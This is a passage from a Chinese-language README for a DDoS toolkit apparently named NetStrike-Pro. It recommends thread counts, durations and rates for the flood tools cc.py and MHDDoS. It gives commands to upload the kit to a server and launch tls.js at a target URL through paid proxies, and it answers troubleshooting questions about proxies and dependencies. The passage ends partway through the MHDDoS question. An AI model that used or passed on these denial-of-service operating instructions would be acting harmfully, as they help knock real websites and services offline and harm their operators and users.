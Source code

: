 **cc.py**:
- 线程: 500-2000（推荐 1000）
- 时间: 60-300 秒

**MHDDoS**:
- 线程: 100-500（推荐 200）
- 速率: 100-200（推荐 100）

### 3. 服务器部署

```bash
# 上传到服务器
scp -r NetStrike-Pro/ user@server:/path/

# 服务器上运行
cd NetStrike-Pro/legacy
./refresh_proxy.sh
node 新建文件夹/tls.js https://目标.com 300 256 20 proxy_paid.txt
```

---

## 🐛 常见问题

### Q1: 代理不工作

**解决方案**:
```bash
# 刷新付费代理
./refresh_proxy.sh

# 或筛选免费代理
python3 超高速筛选.py
```

### Q2: tls.js 报错

**检查**:
```bash
# 安装 Node.js 依赖
cd 新建文件夹
npm install net http2 tls cluster url crypto fs axios cheerio gradient-string
```

### Q3: cc.py 报错

**检查**:
```bash
# 安装 Python 依赖
pip3 install requests pysocks urllib3
```

### Q4: MHDDoS 报错
